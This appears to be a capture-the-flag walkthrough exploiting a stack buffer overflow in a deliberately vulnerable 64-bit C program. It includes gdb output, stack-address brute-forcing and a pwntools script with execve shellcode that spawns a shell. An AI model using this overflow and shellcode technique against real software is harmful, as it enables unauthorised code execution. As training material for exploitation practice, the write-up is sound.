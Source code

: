 The exploit I have here will most lijeky not work if it is copy and pasted without reconfiguring it. Let's take a look at the source code...

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	gets(buf0);
}

int main()
{
	printf("There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection\n");
	nothing();
}
```

So looking at this code, it looks pretty similar to the previous challenge. In fact it is pretty much just a copy and paste of the last challenge. However it is missing one thing that made our lives easy. It is no longer printing out the address of the buffer, so we will have to find that ourselves. Now there are a lot of different methods you could go about finding the address. However that address changes for things such as running at a different privilege level, and if it is in gdb. What we can do for this instance is we can look at the address in gdb. This won't be the exact address, however using that address as a base we should be able to brute force the actual address. Let me show you.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400536 <+0>:	push   rbp
   0x0000000000400537 <+1>:	mov    rbp,rsp
   0x000000000040053a <+4>:	sub    rsp,0x190
   0x0000000000400541 <+11>:	lea    rax,[rbp-0x190]
   0x0000000000400548 <+18>:	mov    rdi,rax
   0x000000000040054b <+21>:	mov    eax,0x0
   0x0000000000400550 <+26>:	call   0x400420 <gets@plt>
   0x0000000000400555 <+31>:	nop
   0x0000000000400556 <+32>:	leave  
   0x0000000000400557 <+33>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+31
Breakpoint 1 at 0x400555
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b5_64/b5_64 
There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection
75395128
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400555 in nothing ()
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0:	"75395128"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x400555 in nothing; saved rip = 0x400570
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
 ```

So as you can see the address of the buffer is stored at 0x7fffffffdcc0. The offset we will need to reach the rip register is 408 (0x7fffffffde98 - 0x7fffffffdd00 = 408). If we were to hardcode that address into our exploit the exploit will work, however only when we run it in gdb under the same settings. However if you notice something with all of the subsequent addresses, the are stored in 16 byte increments. If the address that we saw from gdb servers as a rough estimate, then we should be able to move up and down from 0x7fffffffdcc0 untill we find an address that works. Here is a list of the addresses I went through, before I found one that worked.

```
0x7fffffffdcc0
0x7fffffffdcb0
0x7fffffffdca0
0x7fffffffdc90
0x7fffffffdc80
0x7fffffffdc70
0x7fffffffdc60
0x7fffffffdc50
0x7fffffffdc40
0x7fffffffdc30
0x7fffffffdc20
0x7fffffffdc10
0x7fffffffdcd0
0x7fffffffdce0
0x7fffffffdcf0
```

And then I found the address that worked for me, 0x7fffffffdcf0. Here is my exploit script with the address hard coded in (yes it is the same script from the last challenge with one line changed). Keep in mind that we have to adjust the offset to make room for the shellcode, so it will be 408 - 27 = 381.

```
#Import the pwntools library.
from pwn import *

#The process is like an actualy command you run, so you will have to adjust the path if your exploit isn't in the same directory as the challenge.
target = process("./b5_64")

#Just receive the first line, which for our purposes isn't important.
target.recvline()

#Hardcode in the address of the buffer
address = "0x7fffffffdcf0"

#Convert the string to a hexidecimal
address = int(address, 16)

#Pack the hexidecimal in little endian for 64 bit systems
address = p64(address)

#Store the shellcode in a variable
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

#Make the filler to reach the eip register
filler = "0"*381

#Craft the payload
payload = shellcode + filler + address

#Send the payload
target.sendline(payload)

#Drop into interactive mode so you can use the shell
target.interactive()
````

Now let's try out the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b5_64$ python exploit.py 
[+] Starting local process './b5_64': Done
[*] Switching to interactive mode
$ ls
Readme.md  b5_64  b5_64.c  core  exploit.py  in  out  peda-session-b5_64.txt
$ cat out
If you don't stop trying to leave, we can't have a celebration for you. Level Cleared!

```

And just like that we pwned the binary. 
